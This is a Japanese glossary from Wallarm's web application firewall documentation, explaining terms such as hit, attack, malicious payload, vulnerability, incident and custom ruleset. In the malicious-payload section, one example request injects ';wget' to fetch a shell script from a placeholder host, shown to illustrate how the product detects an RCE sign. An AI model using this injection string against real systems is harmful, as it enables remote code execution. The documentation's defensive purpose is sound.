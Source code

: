 # 用語集

この用語集は、Wallarmの主要なエンティティを理解するためのものです。

## ヒット

ヒットは、シリアライズされた悪意のあるリクエスト（オリジナルの悪意のあるリクエストとフィルタリングノードによって追加されたメタデータ）です。例：

![Hit の例](images/user-guides/events/analyze-attack-raw.png)

[ヒットのパラメータ詳細](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## 攻撃

攻撃とは、以下の特徴によってグループ化された単一のヒットまたは複数のヒットです：

* 同じ攻撃タイプ、悪意のあるペイロードが含まれているパラメータ、そしてヒットが送られたアドレス。ヒットは、同じまたは異なるIPアドレスから来ており、同一の攻撃タイプ内で悪意のあるペイロードの値は異なることがあります。

    このヒットのグループ化方法は基本的なもので、すべてのヒットに適用されます。
* 同じ送信元IPアドレス（適切な [トリガー](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack)が有効化されている場合）。他のヒットのパラメータ値は異なることがあります。

    このヒットのグループ化方法は、ブルートフォース、強制ブラウジング、BOLA（IDOR）、リソース越過、データ爆弾、仮想パッチの攻撃タイプを除くすべてのヒットで機能します。

    ヒットがこの方法でグループ化されている場合、 [**偽陽性としてマーク**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive)ボタンと[アクティブ検証](about-wallarm/detecting-vulnerabilities.md#active-threat-verification)のオプションは、攻撃に使用できません。

挙げられたヒットのグループ化方法は相互に排他的ではない。ヒットが両方の方法の特性を持っている場合、それらはすべて一つの攻撃にグループ化されます。

単一のヒットを含む攻撃の例：

![一つのヒットを含む攻撃](images/glossary/attack-with-one-hit-example.png)

多数のヒットを含む攻撃の例：

![いくつかのヒットを含む攻撃](images/glossary/attack-with-several-hits-example.png)

## 悪意のあるペイロード

オリジナルのリクエストの一部で、以下の要素を含みます：

* リクエストで検出された攻撃の兆候。同種の攻撃を特徴付けるいくつかの攻撃の兆候がリクエストで検出された場合、最初の兆候だけがペイロードに記録されます。
* 攻撃の兆候のコンテキスト。コンテキストは、検出された攻撃の兆候の前後を囲む一連の記号です。ペイロードの長さが制限されているため、攻撃の兆候が全ペイロード長の場合、コンテキストは省略できます。

例：

* リクエスト：

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意あるペイロード：

    ```bash
    ;wget+http://s
    ```

    このペイロードにおける `;wget+`は [RCE](attacks-vulns-list.md#remote-code-execution-rce) 攻撃の兆候で、ペイロードの他の部分は攻撃の兆候のコンテキストです。

攻撃の兆候は[行動的攻撃](about-wallarm/protecting-against-attacks.md#behavioral-attacks)を検出するためには使用されないため、行動的攻撃の一部として送信されたリクエストはペイロードが空になります。

## 脆弱性
脆弱性とは、ウェブアプリケーションの構築や実装時に無視や情報不足から生じた誤りで、情報セキュリティリスクにつながります。

情報セキュリティリスクには以下のものがあります：

* 不正アクセス；例えば、ユーザーデータの読み取りや修正へのアクセス。
* サービス妨害。
* データの破壊等。

インターネットのトラフィックは脆弱性の検出に使うことができ、これがWallarmの機能の一部です。

## セキュリティインシデント

セキュリティインシデントとは脆弱性が悪用された事象のことです。インシデントは確認された脆弱性に対する [攻撃](#attack) です。

インシデントは攻撃と同様に、あなたのシステム外部のエンティティであり、外部インターネットの特性であり、システム自体の特性ではありません。既存の脆弱性に対する攻撃が少数であるにも関わらず、情報セキュリティにおいては最も重要です。Wallarmは既存の脆弱性に対する攻撃を自動的に検出し、それらを個別のオブジェクトとして表示します - インシデント。

## リングバッファ
リングバッファは、単一の固定サイズのバッファを端から端まで接続されているかのように使用するデータ構造です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Circular_buffer)。

## カスタムルールセット（旧称はLOM）

カスタムルールセットは、WallarmノードがWallarm Cloudからダウンロードするコンパイル済みセキュリティルールのセットです。

カスタムルールを使用すると、トラフィック処理の個別のルールを設定することができます。例えば：

* Wallarm Cloudにアップロードする前に機密データをマスク
* 正規表現ベースの攻撃指数を作成
* アクティブな脆弱性を利用するリクエストをブロックする仮想パッチを適用
* 特定のリクエストの攻撃検出を無効にする等。

カスタムルールセットはデフォルトでは空ではありません。クラウドに登録されたすべてのクライアントのルールが含まれています。例えば、 [**設定 → 一般** タブ](admin-en/configure-wallarm-mode.md)からのフィルタリングモードルールの値等。

[カスタムルールセット詳細](user-guides/rules/rules.md)

## 無効なリクエスト
フィルターノードによってチェックされ、LOMのルールに一致しないリクエスト。

## リバースプロキシ
リバースプロキシは、クライアントの代わりにサーバーからリソースを取得し、それをWebサーバー自体から来たかのようにクライアントへ返すタイプのプロキシサーバーです。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Reverse_proxy)。

## 証明書発行機関
証明書発行機関（CA）はデジタル証明書を発行する機関です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Certificate_authority)。